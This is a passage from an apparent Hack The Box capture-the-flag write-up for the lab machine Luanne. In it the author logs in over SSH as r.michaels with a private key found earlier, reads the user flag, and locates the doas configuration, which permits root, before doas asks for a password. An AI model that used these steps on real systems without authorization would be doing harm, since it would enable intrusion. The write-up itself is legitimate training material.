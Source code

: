 

A note - This is not reading the private key from the users `~/.ssh`
directory. For some reason, the user must have put their private key
intentionally in their `~/public.md` directory. Perhaps they figured
since it's only on localhost it was less at risk there. Then again, it's
not clear what use it provides the user there either.

### Shell via SSH

With a copy of this key, I can get a shell as r.michaels:



    oxdf@parrot$ ssh -i ~/keys/luanne-r.michaels r.michaels@10.10.10.218
    Last login: Fri Sep 18 07:06:51 2020
    NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

    Welcome to NetBSD!

    luanne$



And grab `user.txt`:



    luanne$ cat user.txt
    ea5f0ce6************************



## Shell as root

### doas

`sudo -l` is the first thing I check on Linux hosts. The equivalent on
BSD is `doas`. The configuration file is a bit buried:



    luanne$ find / -name doas.conf 2>/dev/null
    /usr/pkg/etc/doas.conf



But it says that this user can run anything as root:



    luanne$ cat /usr/pkg/etc/doas.conf
    permit r.michaels as root



Unfortunately, it requires a password:



    luanne$ doas sh
    Password:
    doas: authentication failed

